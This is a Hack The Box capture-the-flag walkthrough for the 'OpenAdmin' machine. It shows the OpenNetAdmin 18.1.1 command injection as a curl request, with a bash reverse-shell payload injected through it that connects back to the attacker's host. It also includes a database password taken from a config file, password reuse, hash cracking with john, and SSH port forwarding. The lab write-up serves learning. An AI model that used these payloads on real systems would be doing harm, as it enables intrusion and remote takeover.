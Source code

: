 # OpenAdmin
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9908a103-8c8b-4771-bb74-0bf955c31f61)


## Lessons Learned:
- Using dirsearch to enumerate webpages.
- Exploiting OpenNetAdmin (ONA) v.18.1.1 --> Remote Code Execution, Command Injection.
- Implement bash reverse shell.
- Reviewing apache2 internal configuration (reviewing the virtual host is running as which user --> lead to port forwarding).
- Password Cracking using john.
- 

## STEPS:
> PORT SCANNNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC openadmin.htb --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-05 20:41 PDT
Nmap scan report for openadmin.htb (10.10.10.171)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

1. Based from the nmap results, the machine runs web application at port 80 and opens ssh login at port 22.
2. Noticed based from the service's detail, once we open the webapp it shall rendered Ubuntu Default Page.

> WEB DEFAULT PAGE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/061c4f0e-2d71-4aa9-a168-99436176d7df)


3. Knowing this condition, seems the approach is to do directory listing.

> RESULT USING DIRSEARCH

```
dirsearch -u http://openadmin.htb:80
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a74ba915-39d9-418d-a4bf-26bde6d2a304)


4. Interesting! We found 2 accessible endpoint.

> Accessing /music/

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1f38ff98-6fa1-425e-8788-53856e547961)


5. Long story short, after reviewing every feature. Figured out that login feature shall redirect us to `/ona` endpoint.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c9b4311-3f21-42bf-bc44-71ababe5b4a7)


> Accessing /ona/


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f16362b7-372d-40c6-ba05-34704060d1a7)


6. By checking for documentation, turns out ONA is an abbreviation of **OpenNetAdmin**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45440e69-a7b4-4781-9f26-697aaed46333)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/44663749-8bbf-49eb-b6fd-d9e97afc4f98)


7. Noticed, it disclosed the service's version --> `18.1.1`. Using `searchsploit` or internet to find vuln related to this version, found these results:

> Internet

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ab29c1d-0c5f-4864-8f4d-4347e780176c)

> Searchsploit

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/11ea3f32-2360-42de-99f2-886496b844f1)


8. It's remote code execution, also there's github POC's which can be useful (it speed up our exploit to drop a shell).
9. Anyway, let's use the exploit from exploit.db first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/680d056a-3507-48d7-a5b0-fd42fe46fe17)


10. We just need to replace the CMD and URL.

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/722b8bc0-ee83-410a-8c12-ed38fe052568)


11. Awesome, we can do reverse shell from this state. Now let's use the github POC to speed up our process to drop a shell.

> Using the github POC

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/401f15c8-7ea3-4d2a-a60a-c69ba78b8e7e)


12. Noticed we a got a shell as `www-data`, which means in order to obtain the user flag, we need to swtich to a legitimate user account.
13. Anyway I am not too comfortable using shell from the Github POC, let's do reverse shell on our own. Let's use bash.

> BASH REVERSE SHELL - PAYLOAD

```txt
bash -c 'bash -i >%26 /dev/tcp/tun0/1337 0>%261'
```

> IMPLEMENTATION

```txt
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";bash -c 'bash -i >%26 /dev/tcp/10.10.14.29/1337 0>%261';echo \"END\"&xajaxargs[]=ping" http://openadmin.htb:80/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d6873a0-f74e-4a4e-b140-ab3e56638b91)


14. Traversing to `/home` directory to check users registered in this machine. Found 2 users namely **jimmy** and **joanna**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef5a2c80-db6f-4d45-885f-a77d4b5684b6)


15. Upon reviewing the userinfo at ONA dashboard, identified it uses mysql and the host is local.
16. Hence let's traverse to the webapp location --> `/var/www/html/ona`.
17. Checking the `/local/config` found file --> `database_settings.inc.php` which should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b737d855-08f8-4bcc-b17f-5ef8f676ccdc)


18. Found the db password of `ona_sys` --> `n1nj4W4rri0R!`.  However we can't open mysql in the machine. At this condition, we can speculate a password reuse to a certain user.
19. After tried for both, turns out **jimmy** using the same password as the DB.

> LOGGED IN AS JIMMY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d18e759-41db-4e91-ae2e-361e1873bda9)


20. Great! But sadly, there is no user flag inside **jimmy**'s home directory. Seems the goal is to be authenticated as **joanna** to get the user flag.
21. Upon traversing several configuration files, found a configuration that shall let us authenticated as **joanna**.
22. Reviewing the **apache2** --> **internal.conf** file, it revealed that the internal virtual host is running as **joanna** on localhost at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/28a6d26b-c85c-4753-a4f7-7e2ec0f41872)


23. Traversing to `/var/www/internal` found 3 .php files --> `main.php`, `index.php`, and `logout.php`. Our interest should only for **main** and **index**.

> Reviewing main.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/86dee7d8-3904-4134-9314-0ef537b4745b)


24. Noticed it printed out joanna public key once we logged in at the webapp.

> Reviewing index.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7585c7d-e89c-46ad-9ba6-d8a00831b593)


25. At index.php file, we can see a hashed password for jimmy account. The password is hashed with SHA512, which is crackable using john or might be crackstation has the db for that password. Let's try both.

> USING CRACKSTATION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/09f2e1a2-5979-4b1d-b1ed-15439871fdea)


> USING JOHN

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA512 --rules=Jumbo
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ebb8375b-c8e7-470a-9143-d4a80d6fd947)


26. Both states for `Revaled`.
27. Next our objective is to reach the internal sites. Let's do port forwarding.
28. Now reconnect to jimmy over SSH with a tunnel so that we can reach the internal webapp/website.

> PORT FORWARDING

```
ssh jimmy@openadmin.htb -L 52846:localhost:52846
```

29. Now we can access the internal website at port 52846.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0343b9d-c5af-42c9-9481-800f7ea0567f)

